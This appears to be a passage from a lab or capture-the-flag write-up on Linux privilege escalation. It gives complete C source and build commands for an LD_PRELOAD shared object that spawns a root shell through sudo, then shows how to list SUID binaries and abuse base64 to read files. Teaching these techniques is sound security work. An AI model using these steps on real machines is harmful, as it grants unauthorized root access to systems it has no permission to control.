 1. Check for LD_PRELOAD (with the `env_keep`option)
2. Write a simple C code compiled as a shared object (`.so` extension) file
3. Run the program with sudo rights and the `LD_PRELOAD` option pointing to our `.so` file

First, write a simple C code that will spawn a root shell, then compile it using `gcc` into a shared object file.

```bash
─$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

─$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
─$ ls
shell.c  shell.so
─$ file shell.so
shell.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=d7387b7c4c9aaa4d9c5f6c574e4cdb1596fa09af, not stripped

```

Now we can use this shared object file when launching any program that our user can run with `sudo`. In our case, the user can use these commands: `find`, `less`, and `nano`.

```bash
─$ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

```

We can't run this exploit on the target machine since the option `env_keep` is not set.

## Privilege Escalation: SUID

If you want to allow regular users to execute privileged actions, you can use the "Set owner User ID upon execution" (SUID) permission on the executable file. This action allows any user to execute the file with root privileges. However, some SUID programs execute as non-root users

Use this command to list files that have SUID or SGID bits set.

```bash
$ find / -type f -perm -04000 -ls 2>/dev/null
-rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64

```

We can use [base64 SUID abuse](https://gtfobins.github.io/gtfobins/base64/#suid) to allow us to read files
